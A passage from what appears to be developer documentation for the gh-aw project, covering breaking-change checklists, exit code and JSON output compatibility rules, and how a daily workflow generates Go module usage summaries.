- [ ] Changeset type appropriate - Is it marked as major/minor/patch correctly?
- [ ] Migration guidance provided - For breaking changes, is there clear migration documentation?
- [ ] Deprecation warning added - If deprecating, does it warn users?
- [ ] Backward compatibility considered - Could this be done without breaking compatibility?
- [ ] Tests updated - Do tests cover the changed behavior?
- [ ] Help text updated - Is the CLI help accurate?

### Exit Code Standards

The CLI uses standard exit codes:

| Exit Code | Meaning | Breaking to Change |
|-----------|---------|-------------------|
| 0 | Success | No (adding is fine) |
| 1 | General error | No (for new errors) |
| 2 | Invalid usage | No (for new checks) |

Breaking: Changing the exit code for an existing scenario (e.g., changing from 1 to 2 for a specific error type).

### JSON Output Standards

When adding or modifying JSON output:

1. Never remove fields without a major version bump
2. Never rename fields without a major version bump
3. Never change field types without a major version bump
4. Adding new fields is safe - parsers should ignore unknown fields
5. Adding new enum values is safe - parsers should handle unknown values gracefully

### Strict Mode and Security Changes

Special consideration for strict mode changes:

- Making strict mode validation refuse instead of warn is breaking (e.g., v0.30.0)
- Changing strict mode defaults is breaking (e.g., v0.31.0)
- Adding new strict mode validations is not breaking (strictness is opt-in initially)

### References

- **Changeset System**: See Release Management section for version management details
- **CHANGELOG**: See `CHANGELOG.md` for examples of breaking changes
- **Semantic Versioning**: https://semver.org/


## Go Module Summaries

The `scratchpad/mods/` directory contains AI-generated summaries of Go module usage patterns in the gh-aw repository, created by the Go Fan workflow.

### Purpose

Go module summaries provide:
- **Module overview** and version information
- **Files and APIs** that use the module
- **Research findings** from the module's GitHub repository
- **Improvement opportunities** (quick wins, feature opportunities, best practices)
- **References** to documentation and changelog

### File Naming Convention

Module summary files follow a consistent naming pattern where the Go module path has slashes replaced with dashes:

| Module Path | File Name |
|-------------|-----------|
| `github.com/goccy/go-yaml` | `goccy-go-yaml.md` |
| `github.com/spf13/cobra` | `spf13-cobra.md` |
| `github.com/stretchr/testify` | `stretchr-testify.md` |

### Generation Process

The summaries are generated by the [Go Fan workflow](/.github/workflows/go-fan.md):



**Update Frequency**: Daily on weekdays (Monday-Friday) at 7 AM UTC

**Round-Robin Selection**: The workflow uses cache-memory to track which module was analyzed last, ensuring each module gets updated in rotation.

### Usage Guidelines

When working with Go modules in the codebase:

1. **Check existing summaries** in `scratchpad/mods/` for module-specific patterns and best practices
2. **Reference improvement opportunities** when upgrading or refactoring module usage
3. **Consult API documentation links** provided in the summaries for authoritative reference
4. **Update summaries manually** if significant changes are made to module usage patterns (the workflow will refresh on its next run)

### Summary Contents

Each module summary includes the following sections:

- **Module Overview**: Version used and general purpose
- **Usage Analysis**: Files and code locations using the module
- **API Surface**: Functions, types, and methods utilized
- **Research Findings**: Information from the module's repository (recent releases, documentation, best practices)
- **Improvement Opportunities**: Suggestions for better module usage
- **References**: Links to documentation, changelog, and GitHub repository


**Last Updated:** 2025-12-01
**Maintainers:** GitHub Next Team
